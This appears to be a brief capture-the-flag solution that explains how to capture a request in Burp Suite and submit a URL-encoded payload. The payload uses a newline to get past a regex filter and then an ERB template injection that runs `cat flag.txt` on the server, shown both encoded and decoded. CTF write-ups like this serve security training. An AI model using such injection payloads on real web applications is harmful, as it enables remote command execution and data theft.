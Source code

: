 # Solution

Capture the request with burpsuite and insert the input below directly in the burpsuite input parameter:
```
%20a%20%0Ab%3C%25%3D%20%60cat%20flag.txt%20%60%20%25%3E^_`aaa
```
this is the same as:

```
 a 
b<%= `cat flag.txt ` %>^_`aaa
```

# References

- https://github.com/attackercan/regexp-security-cheatsheet